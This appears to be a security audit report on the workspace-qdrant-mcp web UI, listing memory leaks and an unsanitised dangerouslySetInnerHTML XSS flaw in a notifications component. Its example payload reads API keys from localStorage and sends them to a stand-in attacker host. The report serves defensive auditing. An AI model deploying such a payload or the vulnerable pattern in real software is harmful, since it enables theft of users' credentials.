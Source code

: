 # Security Audit Report: Web UI Components
**Workspace-Qdrant-MCP Project**

## Executive Summary

A comprehensive security audit of the workspace-qdrant-mcp web UI components has identified **CRITICAL SECURITY VULNERABILITIES** and **SEVERE MEMORY LEAKS** that pose immediate risks to system stability and security. The web UI has been **DISABLED** as a production safety measure pending remediation.

### Risk Assessment: **CRITICAL**

| Risk Category | Severity | Count | Impact |
|---------------|----------|--------|---------|
| Memory Leaks | **CRITICAL** | 4+ | System instability, requires machine reboot |
| Security Vulnerabilities | **HIGH** | 4+ | XSS attacks, API key exposure |
| Production Impact | **SEVERE** | - | Web UI disabled, core daemon operational |

### Key Findings
- **Memory leaks severe enough to require machine reboots** (user-confirmed impact)
- **XSS vulnerability enabling API key theft** through unsanitized HTML injection
- **Exponential memory growth** in chart visualization components
- **Missing security headers** and content security policy
- **Vulnerable dependencies** requiring immediate updates

---

## Critical Security Findings

### 1. Cross-Site Scripting (XSS) Vulnerability
**Risk Level:** HIGH | **CVSS Score:** 7.5

**Location:** Notifications.jsx (React Component)
**Issue:** Use of `dangerouslySetInnerHTML` without sanitization

```javascript
// VULNERABLE CODE PATTERN
<div dangerouslySetInnerHTML={{__html: userContent}} />
```

**Attack Vector:**
```javascript
// Malicious payload example
const maliciousPayload = `<script>
  // Steal API keys from localStorage
  const apiKeys = localStorage.getItem('api_keys');
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({keys: apiKeys})
  });
</script>`;
```
